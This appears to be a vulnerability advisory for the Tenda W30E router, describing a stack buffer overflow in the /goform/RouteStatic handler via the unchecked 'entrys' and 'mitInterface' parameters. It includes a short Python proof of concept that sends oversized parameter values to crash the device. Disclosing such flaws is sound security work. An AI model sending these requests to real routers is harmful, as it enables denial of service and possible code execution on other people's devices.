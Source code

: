 # Tenda Router W30E Vulnerability
This vulnerability lies in the `/goform/RouteStatic` page which influences the lastest version of Tenda Router W30E. (The latest version is [W30E_V1.0.1.25(633)](https://www.tenda.com.cn/download/detail-2218.html))

## Vulnerability Description
There is a stack-based buffer overflow vulnerability in function `fromRouteStatic`.

In function `fromRouteStatic` it reads 2 user provided parameters `entrys` and `mitInterface` into `v8` and `v7`, and these two variables are passed into function `sprintf` without any length check, which may overflow the stack-based buffer `s`.
![](https://github.com/Funcy33/Vluninfo_Repo/blob/main/CNVDs/104/vlun1.png)

So by requesting the page `/goform/RouteStatic`, the attacker can easily perform a **Deny of Service Attack** or **Remote Code Execution** with carefully crafted overflow data.
## POC
```
mport requests

IP = "10.10.10.1"
url = f"http://{IP}/goform/RouteStatic?"
url += "entrys=" + "s" * 0x200
url += "&mitInterface=" + "a" * 0x200

response = requests.get(url)
```
## Timeline
## Acknowledgment
Credit to [@Funcy_kilar](https://github.com/Funcy33) from Guangzhou University.
